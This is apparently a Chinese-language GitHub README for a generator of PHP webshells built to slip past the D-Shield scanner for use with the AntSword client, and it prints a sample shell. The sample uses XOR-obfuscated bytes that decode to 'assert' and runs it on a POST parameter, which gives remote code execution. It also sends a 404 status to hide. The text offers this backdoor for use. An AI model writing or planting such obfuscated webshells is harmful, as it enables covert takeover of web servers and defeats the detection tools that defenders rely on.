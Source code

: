 # as_php_xor_bypass
利用随机异或无限免杀D盾蚁剑版 (thx @SardineFish)



PHP原版请移步:https://github.com/yzddmr6/php_xor_bypass

PYTHON版请移步:https://github.com/c0ny1/WorkScripts/blob/master/php-xor-bypass/php_xor_bypass.py


### 生成 Shell 样例

```
<?php 
header('HTTP/1.1 404');
class COMI { 
    public $c='';
    function __destruct() {
        $_0 = "\xfc" ^ "\x9d";
        $_1 = "\x4" ^ "\x77";
        $_2 = "\xb4" ^ "\xc7";
        $_3 = "\x9b" ^ "\xfe";
        $_4 = "\x93" ^ "\xe1";
        $_5 = "\xe7" ^ "\x93";
        $db =$_0.$_1.$_2.$_3.$_4.$_5;
        return @$db($this->c);
    }
}
$comi = new COMI();
@$comi->c = $_POST['yzddmr6'];
?>
```

